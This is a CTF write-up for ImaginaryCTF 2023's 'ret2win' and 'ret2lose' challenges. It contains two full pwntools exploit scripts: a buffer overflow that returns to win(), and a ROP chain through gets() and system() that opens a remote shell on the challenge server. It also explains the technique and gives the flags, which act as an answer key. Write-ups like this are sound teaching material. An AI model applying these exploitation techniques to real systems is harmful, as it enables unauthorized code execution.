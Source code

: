 # Imaginary CTF 2023 `ret2win ret2lose [pwn]` writeup

## Challenge
Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

`nc ret2win.chal.imaginaryctf.org 1337`

You can get the binary file and its source code.

## Solusion & Exploit
### ret2win
The goal of "ret2win" is to call `win()` function.

There are no other specific concerns to be aware of, aside from stack alignment.

```py
from pwn import *
import sys

elf = ELF("vuln")

# io = process(elf.path)
io = remote("ret2win.chal.imaginaryctf.org", 1337)

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# gdb.attach(io)

p = b'A' * 0x48
p += p64(next(elf.search(asm('ret'), executable=True)))
p += p64(elf.sym["win"])

io.sendline(p)

io.interactive()
```

FLAG: `ictf{r3turn_0f_th3_k1ng?}`

### ret2lose
The goal of "ret2lose" is to get the shell.

There is `system()` function in the binary, but no convinient gadget like `pop rdi; ret`.

How about achieving ret2libc to supplement the missing gadgets?
Without an output function, you should quickly realize that address leak would be difficult.

...There are not many gadgets available, but when the `gets()` function returns, the RDI register is set with a writable address. Writing `/bin/sh` to this address and calling the `system()` function could be a potential approach.

It probably won't work as expected.
When analyzing it with GDB, you may notice that the argument of the `system()` function becomes `/bin.sh`!

The address you are trying to write to is the `_IO_lock_t` structure of standard input. The `_IO_lock_t.cnt` gets decremented at the end of `gets() function`, causing the 5th byte of the string to be overwritten.

```py
from pwn import *
import sys

elf = ELF("vuln")

# io = process(elf.path)
io = remote("ret2win.chal.imaginaryctf.org", 1337)

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# gdb.attach(io)

p = b'A' * 0x48
p += p64(next(elf.search(asm('ret'), executable=True)))
p += p64(elf.sym["gets"])
p += p64(next(elf.search(asm('ret'), executable=True)))
p += p64(elf.sym["system"])

io.sendline(p)

io.sendline(b'sh\x00AAAAAA')
io.interactive()
```

FLAG: `ictf{ret2libc?_what_libc?}`